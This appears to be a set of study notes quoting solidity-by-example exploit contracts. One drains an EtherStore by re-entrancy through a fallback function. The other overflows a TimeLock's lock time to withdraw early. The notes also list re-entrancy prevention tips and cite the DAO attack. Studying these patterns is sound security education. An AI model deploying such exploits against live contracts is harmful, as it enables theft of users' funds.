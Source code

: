 

## Attack - Re-entrancy
[https://solidity-by-example.org/hacks/re-entrancy/](https://solidity-by-example.org/hacks/re-entrancy/)

´´´
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
´´´

Preventative techniques:
- Ensure all state changes happen before calling external contracts
- Use function modifiers that prevent re-entrancy

Example of attack:
- [The DAO Attack](https://www.coindesk.com/understanding-dao-hack-journalists)

## Attack - Overflow
[https://solidity-by-example.org/hacks/overflow/](https://solidity-by-example.org/hacks/overflow/)

´´´
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        */
        timeLock.increaseLockTime(
            type(uint).max - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
´´´